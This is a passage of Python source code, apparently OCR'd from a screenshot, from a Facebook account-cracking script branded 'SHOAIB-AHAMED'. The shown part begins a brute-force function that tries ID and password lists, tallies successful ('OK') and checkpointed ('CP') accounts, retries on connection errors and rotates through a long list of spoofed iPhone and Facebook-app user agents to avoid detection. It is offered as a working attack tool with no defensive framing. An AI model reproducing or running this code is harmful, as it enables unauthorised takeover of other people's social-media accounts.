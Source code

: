 			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#----------------------[ METHODE-MTOUCH+MOBILE-4 ]-----------------#
def crackmbasic_SHOAIB(idf,pwv,nmf):
	global loop,ok,cp
	bi = random.choice(['\33[m'])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r\x1b[1;90m[%s\x1b[1;91mSHOAIB-AHAMED\x1b[1;90m]-[\x1b[1;96m%s\x1b[1;90m/\x1b[1;95m%s\x1b[1;90m]-[\x1b[1;92mOK:%s\x1b[1;90m]-[\x1b[1;93mCP:%s\x1b[1;90m]-[\x1b[1;94m%s%s\x1b[1;90m]%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()
	ua = random.choice(['Mozilla/5.0 (iPhone; CPU iPhone OS 11_2_5; like Mac OS X) AppleWebKit/600.43 (KHTML, like Gecko)  Chrome/51.0.2458.138 Mobile Safari/602.3',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_7_7; like Mac OS X) AppleWebKit/601.12 (KHTML, like Gecko)  Chrome/47.0.1741.400 Mobile Safari/601.4',
'Mozilla/5.0 (iPhone; CPU iPhone OS 7_2_5; like Mac OS X) AppleWebKit/535.37 (KHTML, like Gecko)  Chrome/55.0.1438.376 Mobile Safari/603.0',
'Mozilla/5.0 (iPhone; CPU iPhone OS 9_6_8; like Mac OS X) AppleWebKit/601.9 (KHTML, like Gecko)  Chrome/52.0.2927.225 Mobile Safari/535.9',
'Mozilla/5.0 (iPhone; CPU iPhone OS 8_2_3; like Mac OS X) AppleWebKit/534.44 (KHTML, like Gecko)  Chrome/51.0.2055.387 Mobile Safari/602.9',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_5_7; like Mac OS X) AppleWebKit/602.34 (KHTML, like Gecko)  Chrome/54.0.1280.327 Mobile Safari/601.2',
'Mozilla/5.0 (iPhone; CPU iPhone OS 10_4_9; like Mac OS X) AppleWebKit/534.26 (KHTML, like Gecko)  Chrome/49.0.1455.201 Mobile Safari/603.9',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_5_0; like Mac OS X) AppleWebKit/537.3 (KHTML, like Gecko)  Chrome/52.0.2335.107 Mobile Safari/603.5',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_6_7; like Mac OS X) AppleWebKit/600.40 (KHTML, like Gecko)  Chrome/48.0.1600.178 Mobile Safari/602.4',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0_8; like Mac OS X) AppleWebKit/533.49 (KHTML, like Gecko)  Chrome/51.0.1116.123 Mobile Safari/600.0',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/96.0.4664.53 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.4 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A372 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.0 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.0 Mobile/15E148 Safari/604.1 OPX/1.5.2',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/20A5339d [FBAN/FBIOS;FBDV/iPhone10,6;FBMD/iPhone;FBSN/iOS;FBSV/16.0;FBSS/3;FBID/phone;FBLC/vi_VN;FBOP/5]',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/20A5312j [FBAN/FBIOS;FBDV/iPhone13,1;FBMD/iPhone;FBSN/iOS;FBSV/16.0;FBSS/3;FBID/phone;FBLC/cs_CZ;FBOP/5]',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/20A5312g [FBAN/FBIOS;FBDV/iPhone13,1;FBMD/iPhone;FBSN/iOS;FBSV/16.0;FBSS/3;FBID/phone;FBLC/cs_CZ;FBOP/5]',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 YaBrowser/22.7.6.401.10 YaApp_iOS/2207.6 YaApp_iOS_Browser/2207.6 Safari/604.1 SA/3',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) GSA/218.0.456502374 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPad; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 Version/15.0 Safari/605.1.15',
'Mozilla/5.0 (iPad; CPU iPhone OS 15_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 Version/15.1 Safari/605.1.15',